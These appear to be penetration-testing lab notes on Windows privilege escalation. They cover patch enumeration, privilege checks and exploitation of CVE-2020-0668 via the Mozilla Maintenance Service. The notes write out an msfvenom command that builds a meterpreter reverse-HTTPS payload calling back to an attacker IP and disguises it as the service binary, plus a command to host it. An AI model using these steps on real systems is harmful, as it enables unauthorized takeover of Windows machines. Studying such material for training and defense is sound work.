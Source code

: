 #### Confirming New Admin User
```PowerShell
net user hacker
```

### Enumerating Missing Patches

#### Examining Installed Updates
```PowerShell
systeminfo
```

```PowerShell
wmic qfe list brief
```

```PowerShell
Get-Hotfix
```

#### Viewing Installed Updates with WMI
```PowerShell
wmic qfe list brief
```
We can search for each KB (Microsoft Knowledge Base ID number) in the Microsoft Update Catalog: https://www.catalog.update.microsoft.com/

### Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability

#### Checking Current User Privileges
```cmd.exe
whoami /priv
```

#### Building Solution
This privileged file write needs to be chained with another vulnerability, such as UsoDllLoader or DiagHub to load the DLL and escalate our privileges.

#### Checking Permissions on Binary
```cmd.exe
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
`icacls `confirms that we only have read and execute permissions on this binary based on the line `BUILTIN\Users:(I)(RX`) in the command output.

#### Generating Malicious Binary
```Shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

#### Hosting the Malicious Binary
```Shell
python3 -m http.server 8080
```
*Will need to copy it to the system twice*
